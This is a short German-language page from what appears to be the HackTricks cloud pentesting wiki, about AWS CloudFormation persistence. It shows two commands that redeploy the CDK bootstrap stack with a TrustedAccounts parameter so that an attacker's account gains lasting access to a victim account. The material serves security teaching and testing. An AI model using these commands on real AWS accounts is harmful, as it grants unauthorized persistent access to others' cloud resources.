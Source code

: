 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Für weitere Informationen, greifen Sie zu:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

Der AWS CDK deployt einen CFN-Stack namens `CDKToolkit`. Dieser Stack unterstützt einen Parameter `TrustedAccounts`, der externen Konten erlaubt, CDK-Projekte in das Opferkonto zu deployen. Ein Angreifer kann dies ausnutzen, um sich selbst unbegrenzten Zugang zum Opferkonto zu gewähren, entweder indem er die AWS CLI verwendet, um den Stack mit Parametern neu zu deployen, oder die AWS CDK CLI.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
